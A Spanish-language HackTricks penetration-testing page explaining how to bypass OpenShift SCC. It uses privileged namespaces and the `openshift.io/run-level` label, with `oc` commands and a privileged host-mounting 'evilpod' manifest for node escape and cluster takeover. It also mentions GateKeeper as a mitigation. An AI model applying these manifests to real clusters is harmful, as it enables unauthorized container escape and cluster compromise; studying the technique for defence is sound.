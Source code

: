 # Openshift - SCC bypass

{{#include ../../../banners/hacktricks-training.md}}

**El autor original de esta página es** [**Guillaume**](https://www.linkedin.com/in/guillaume-chapela-ab4b9a196)

## Namespaces privilegiados

Por defecto, SCC no se aplica en los siguientes proyectos:

- **default**
- **kube-system**
- **kube-public**
- **openshift-node**
- **openshift-infra**
- **openshift**

Si despliegas pods dentro de uno de esos namespaces, no se aplicará SCC, lo que permite el despliegue de pods privilegiados o el montaje del sistema de archivos del host.

## Etiqueta de Namespace

Hay una manera de deshabilitar la aplicación de SCC en tu pod según la documentación de RedHat. Necesitarás tener al menos uno de los siguientes permisos:

- Crear un Namespace y Crear un Pod en este Namespace
- Editar un Namespace y Crear un Pod en este Namespace
```bash
$ oc auth can-i create namespaces
yes

$ oc auth can-i patch namespaces
yes
```
La etiqueta específica `openshift.io/run-level` permite a los usuarios eludir los SCC para aplicaciones. Según la documentación de RedHat, cuando se utiliza esta etiqueta, no se aplican SCC a todos los pods dentro de ese espacio de nombres, eliminando efectivamente cualquier restricción.

<figure><img src="../../../images/Openshift-RunLevel4.png" alt=""><figcaption></figcaption></figure>

## Agregar Etiqueta

Para agregar la etiqueta en tu espacio de nombres:
```bash
$ oc label ns MYNAMESPACE openshift.io/run-level=0
```
Para crear un namespace con la etiqueta a través de un archivo YAML:
```yaml
apiVersion: v1
kind: Namespace
metadata:
name: evil
labels:
openshift.io/run-level: 0
```
Ahora, todos los nuevos pods creados en el namespace no deberían tener ningún SCC

<pre class="language-bash"><code class="lang-bash"><strong>$ oc get pod -o yaml | grep 'openshift.io/scc'
</strong><strong>$
</strong></code></pre>

En ausencia de SCC, no hay restricciones en la definición de tu pod. Esto significa que se puede crear fácilmente un pod malicioso para escapar al sistema host.
```yaml
apiVersion: v1
kind: Pod
metadata:
name: evilpod
labels:
kubernetes.io/hostname: evilpod
spec:
hostNetwork: true #Bind pod network to the host network
hostPID: true #See host processes
hostIPC: true #Access host inter processes
containers:
- name: evil
image: MYIMAGE
imagePullPolicy: IfNotPresent
securityContext:
privileged: true
allowPrivilegeEscalation: true
resources:
limits:
memory: 200Mi
requests:
cpu: 30m
memory: 100Mi
volumeMounts:
- name: hostrootfs
mountPath: /mnt
volumes:
- name: hostrootfs
hostPath:
path:
```
Ahora, se ha vuelto más fácil escalar privilegios para acceder al sistema host y, posteriormente, tomar el control de todo el clúster, obteniendo privilegios de 'cluster-admin'. Busca la parte de **Node-Post Exploitation** en la siguiente página:

{{#ref}}
../../kubernetes-security/attacking-kubernetes-from-inside-a-pod.md
{{#endref}}

### Etiquetas personalizadas

Además, según la configuración del objetivo, se pueden utilizar algunas etiquetas / anotaciones personalizadas de la misma manera que en el escenario de ataque anterior. Incluso si no están diseñadas para ello, las etiquetas podrían usarse para otorgar permisos, restringir o no un recurso específico.

Intenta buscar etiquetas personalizadas si puedes leer algunos recursos. Aquí hay una lista de recursos interesantes:

- Pod
- Deployment
- Namespace
- Service
- Route
```bash
$ oc get pod -o yaml | grep labels -A 5
$ oc get namespace -o yaml | grep labels -A 5
```
## Enumera todos los espacios de nombres privilegiados
```bash
$ oc get project -o yaml | grep 'run-level' -b5
```
## Exploitación avanzada

En OpenShift, como se demostró anteriormente, tener permiso para desplegar un pod en un namespace con la etiqueta `openshift.io/run-level` puede llevar a una toma de control directa del clúster. Desde la perspectiva de la configuración del clúster, esta funcionalidad **no se puede desactivar**, ya que es inherente al diseño de OpenShift.

Sin embargo, medidas de mitigación como **Open Policy Agent GateKeeper** pueden prevenir que los usuarios establezcan esta etiqueta.

Para eludir las reglas de GateKeeper y establecer esta etiqueta para ejecutar una toma de control del clúster, **los atacantes necesitarían identificar métodos alternativos.**

## Referencias

- [https://docs.openshift.com/container-platform/4.8/authentication/managing-security-context-constraints.html](https://docs.openshift.com/container-platform/4.8/authentication/managing-security-context-constraints.html)
- [https://docs.openshift.com/container-platform/3.11/admin_guide/manage_scc.html](https://docs.openshift.com/container-platform/3.11/admin_guide/manage_scc.html)
- [https://github.com/open-policy-agent/gatekeeper](https://github.com/open-policy-agent/gatekeeper)



{{#include ../../../banners/hacktricks-training.md}}
